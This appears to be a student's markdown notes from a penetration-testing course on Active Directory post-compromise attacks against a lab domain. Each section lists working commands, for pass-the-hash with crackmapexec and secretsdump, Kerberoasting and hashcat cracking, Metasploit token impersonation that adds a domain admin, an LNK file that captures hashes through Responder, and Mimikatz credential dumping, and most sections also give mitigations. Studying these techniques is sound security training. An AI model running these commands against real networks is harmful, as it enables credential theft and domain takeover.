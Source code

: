 ## Pass Attacks 
- Also know as Pass the Password or Pass the Hash
- Which hash can be used in a pass-the-hash attack? -- NTLM
- If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.
- `crackmapexec smb 10.0.0.0/24 -u pparker -d MARVEL.local -p passw0rd@123`
- `crackmapexec smb 10.0.0.0/24  -u administrator -H [hash] --local-auth`
- `crackmapexec smb 10.0.0.0/24  -u administrator -H [hash] --local-auth --sam` -- dumps the sam for every devices we log into
- `crackmapexec smb 10.0.0.0/24  -u administrator -H [hash] --local-auth --shares` --- enum the shares
- `crackmapexec smb 10.0.0.0/24  -u administrator -H [hash] --local-auth -M lsassy`
- `cmedb` -- crackmapexec database
######   Dumping and Cracking Hashes
- `secretsdump.py MARVEL.local/pparker:'passw0rd@123'@10.0.2.14` 
- `secretsdump.py administrator:@10.0.2.14 -hashes [hash]` 
- use hashcat or john the ripper for password cracking (only paste LM NT:LM)
	- `hashcat -m 1000 hash.txt /home/anurag/Downloads/rockyou.txt`
###### Mitigation
- Limit account re-use:
	- Avoid re-use local admin password
	-  Disable Guest and Administrator accounts
	- Limit who is a local administrator (Least Privileges)
- Utilize strong passwords
	- The longer the better (>14 characters)
	- Avoid using common words
- Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed
	- Automatically rotate passwords on check out and check in
	- Limits pass attacks as hash/password is strong and constantly rotated

## Kerberoasting 
![[Kerberoasting.png]]
- If we have domain credential of any kind that are valid, we can request a TGT (Ticket Granting Ticket)
- `sudo GetUserSPNs.py MARVEL.local/tstark:'passw0rd@123' -dc-ip 10.0.2.15 -request`
- It will give service accounts and their hashes
- `hashcat -m 13100 krt.txt /home/anurag/Downloads/rockyou.txt`
###### Mitigation
- Strong Passwords
- Least Privileges -- meaning your service account should not be running as domain admin
- Should not store password in your AD description

## Token Impersonation
- What Tokens are?
	- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.
- Two Types:
	- **Delegate** -- Created for logging into a machine or using emote Desktop
	- **Impersonate** -- "non-interactive" such as attaching a network drive or a domain logon script
- msfconsole
	- `use exploit/windows/smb/psexec`
	- `load incognito` -- load after we get meterpreter session
	- `list_tokens -u` -- to list user account access tokens
	- `impersonate_token "[TOKEN NAME]"` (impersonate_token marvel\\tstark)
	- `rev2self` -- to get back to previous authorty
	- `net user /add hawkeye Password@1 /domain` -- to add the user as domain (once you have access to domain admin)
	- `net group "Domain Admins" hawkeye /ADD /DOMAIN` -- to add that user as domain admin
###### Mitigation
- Limit user/group token creation permission
- Account tiering
- Local admin restriction

##   LNK File Attacks
- Open powershell with administrator on target machine and type:
	- $objShell = New-Object -ComObject WScript.shell 
	- $lnk = $objShell.CreateShortcut("C:\test.lnk") 
	- $lnk.TargetPath = "\\[YOUR IP]\@test.png" 
	- $lnk.WindowStyle = 1 
	- $lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 
	- $lnk.Description = "Test" 
	- $lnk.HotKey = "Ctrl+Alt+T" 
	- $lnk.Save()
	- and paste the file in hackme folder 
- Now start responder
- ` sudo responder -I eth0 -dPv`

##   GPP / cPassword Attacks and Mitigations
- It is old attack
- Group Policy Preference (GPP) allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released (whoops)
- Patched in MS14-025, but it doesn't prevent previous uses
- STILL RELEVANT ON PENTESTS
###### Mitigation
- PATCH! fixed in  KB2962486
- In reality: delete the old GPP xml stored in SYSVOL

## Mimikatz (outside the scope of course)
- This will picked up by almost any sort of antivirus
- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dump credentials stored in memory
- Just a few attacks: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket, and Golden Ticket
- `sekurlsa::logonPasswods`


##   Post-Compromise Attack Strategy
- We have an account, now what?
- Search the quick wins
	- Kerberoasting
	- Secretsdump
	- Pass the hash/  pass the password
- No quick wins? Dig deep!
	- Enumerate (Bloodhound, etc.)
	- Where does your account have access?
	- Old vulnerabilities
- Think outside the box